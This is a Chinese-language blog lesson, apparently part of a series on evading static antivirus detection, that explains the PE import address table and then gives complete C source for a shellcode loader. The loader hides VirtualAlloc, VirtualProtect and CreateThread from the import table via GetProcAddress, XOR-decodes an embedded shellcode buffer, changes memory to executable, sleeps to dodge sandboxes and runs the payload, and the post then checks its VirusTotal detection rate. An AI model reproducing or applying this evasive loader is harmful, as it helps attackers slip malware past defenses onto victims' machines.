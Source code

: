 ```yaml
---
date: "2020-10-23T00:00:00Z"
description: 本节课，我们需要引入导入表的概念，并且通过代码的小技巧来隐藏导入表，减少文件特征
title: 静态恶意代码逃逸（第七课）
url: /archivers/2020-10-23/1
---
```



代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 导入地址表（IAT）

> Import Address Table 由于导入函数就是被程序调用但其执行代码又不在程序中的函数，这些函数的代码位于一个或者多个DLL 中，当PE 文件被装入内存的时候，Windows 装载器才将DLL 装入，并将调用导入函数的指令和函数实际所处的地址联系起来(动态连接)，这操作就需要导入表完成.其中导入地址表就指示函数实际地址。 - 来源百度百科


如下图所示：

![2020-10-23-10-46-14](https://images.payloads.online/a20742d6-4f5f-11ec-857b-00d861bf4abb.png)

在PE结构中，存在一个导入表，导入表中声明了这个PE文件会载入哪些模块，同时每个模块的结构中又会指向模块中的一些函数名称。这样的组织关系是为了告诉操作系统这些函数的地址在哪里，方便修正调用地址。

站在反病毒的角度提出假想：既然所有的PE文件都有导入表，并且声明了一些模块，并且还能通过模块找到导入函数的名称，那么是否能够作为一个文件的风险值的评估方向？

方法论：

如果一个文件的文件大小在300KB以内，并且导入函数又有`Virtual Alloc`、`CreateThread`，且`VirtualAlloc`的最后一个参数是`0x40`，那么此文件是高危文件。

`0x40`被定义在`winnt.h`中：

```c
#define PAGE_NOACCESS           0x01    
#define PAGE_READONLY           0x02    
#define PAGE_READWRITE          0x04    
#define PAGE_WRITECOPY          0x08    
#define PAGE_EXECUTE            0x10    
#define PAGE_EXECUTE_READ       0x20    
#define PAGE_EXECUTE_READWRITE  0x40    
#define PAGE_EXECUTE_WRITECOPY  0x80  
```

看一下[第一课代码](https://github.com/Rvn0xsy/BadCode/blob/master/BadCode/Source.cpp)编译出来的PE导出表：

![2020-10-23-11-13-58](https://images.payloads.online/a260fd58-4f5f-11ec-aadf-00d861bf4abb.png)


根据这个猜想，我们开始尝试在PE文件中抹去导入函数名称。

## 0x02 GetProcAddress获取函数地址

`GetProcAddress`这个API在Kernel32.dll中被导出，主要功能是从一个加载的模块中获取函数的地址。

函数声明如下：

```c++
FARPROC GetProcAddress(
  HMODULE hModule, // 模块句柄
  LPCSTR  lpProcName // 函数名称
);
```

`FARPROC`被定义在了`minwindef.h`中，声明如下：

```c
#define WINAPI      __stdcall

typedef int (FAR WINAPI *FARPROC)();
```

跟进它的声明能够发现是一个函数指针，也就是说`GetProcAddress`返回的是我们要找的函数地址。

## 0x03 自己动手获取函数地址

我们拿[第一课的代码](https://github.com/Rvn0xsy/BadCode/tree/master/BadCode)来尝试修改。

分析[第一课的代码](https://github.com/Rvn0xsy/BadCode/blob/master/BadCode/Source.cpp)，主要流程：

```
VirtualAlloc -> VirtualProtect -> CreateThread -> WaitForSingleObject
```

这几个函数是比较明显的，并且都在`kernel32.dll`中导出，我们尝试自己定义他们的函数指针，然后利用`GetProcAddress`获取函数地址，调用自己的函数名称。

新建一个`C/C++`项目，定义如下：

```c++
typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD (WINAPI * ImportWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```

然后在`main`函数中，定义四个函数指针来存放这些函数的地址。

```c++
	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");
```

完整代码如下：

```c
#include <Windows.h>
#include <intrin.h>
#include <WinBase.h>
#include <stdio.h>

typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD(WINAPI* ImportWaitForSingleObject)(
	HANDLE hHandle,
	DWORD  dwMilliseconds
	);



// 入口函数
int wmain(int argc, TCHAR* argv[]) {

	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");


	int shellcode_size = 0; // shellcode长度
	DWORD dwThreadId; // 线程ID
	HANDLE hThread; // 线程句柄
	DWORD dwOldProtect; // 内存页属性
/* length: 800 bytes */

	char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a...";


	// 获取shellcode大小
	shellcode_size = sizeof(buf);

	/* 增加异或代码 */
	for (int i = 0; i < shellcode_size; i++) {
		//Sleep(50);
		_InterlockedXor8(buf + i, 10);
	}
	
	/*
	VirtualAlloc(
		NULL, // 基址
		800,  // 大小
		MEM_COMMIT, // 内存页状态
		PAGE_EXECUTE_READWRITE // 可读可写可执行
		);
	*/

	char* shellcode = (char*)MyVirtualAlloc(
		NULL,
		shellcode_size,
		MEM_COMMIT,
		PAGE_READWRITE // 只申请可读可写
	);

	// 将shellcode复制到可读可写的内存页中
	CopyMemory(shellcode, buf, shellcode_size);

	// 这里开始更改它的属性为可执行
	MyVirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);

	// 等待几秒，兴许可以跳过某些沙盒呢？
	Sleep(2000);

	hThread = MyCreateThread(
		NULL, // 安全描述符
		NULL, // 栈的大小
		(LPTHREAD_START_ROUTINE)shellcode, // 函数
		NULL, // 参数
		NULL, // 线程标志
		&dwThreadId // 线程ID
	);

	MyWaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
	return 0;
}
```


编译后能够正常执行，并且我们查看一下导入表，我们自己定义的函数已经不在导入表中了：

![2020-10-23-11-26-45](https://images.payloads.online/a2a0a3fe-4f5f-11ec-b0cc-00d861bf4abb.png)


[Virus Total](https://www.virustotal.com/gui/file/6e46cbe74a6d82747d2eb057d49b449477ab9c5e7bc6a7be295cbe7c09d5a7e4/detection)一下看看：

![2020-10-23-11-30-16](https://images.payloads.online/a2d95ad2-4f5f-11ec-82d9-00d861bf4abb.png)

目前这个程序仅仅只是在一个函数中进行调用，并且还有字符串硬编码的问题，下一课着重分享如何解决字符串硬编码的问题。